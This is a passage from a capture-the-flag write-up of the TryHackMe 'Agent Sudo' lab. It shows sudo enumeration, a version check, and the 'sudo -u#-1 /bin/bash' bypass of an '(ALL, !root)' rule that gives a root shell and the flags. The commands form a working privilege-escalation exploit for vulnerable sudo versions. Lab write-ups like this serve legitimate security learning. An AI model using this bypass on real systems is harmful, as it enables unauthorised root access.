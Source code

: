it's worked !

Because of the machine's name, i tried first “sudo -l” to see if we have any special rights.

```shell
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
(ALL, !root) /bin/bash
```

We can't run bash as root but by googling this strange syntax i saw a security bypass in sudo 1.8.27 to run bash as root despite this command

```shell
james@agent-sudo:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
james@agent-sudo:~$ 
```
We have sudo 1.8.21p, our sudo version is vulnerable !

As we can see [here](https://www.exploit-db.com/exploits/47502) we can bypass "(ALL, !root) /bin/bash" by typing "sudo -u#-1 /bin/bash"

```shell
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
[REDACTED]

By,
DesKel a.k.a Agent R
root@agent-sudo:~# cat /home/james/user_flag.txt 
[REDACTED]
root@agent-sudo:~#
```

Thanks for reading ! 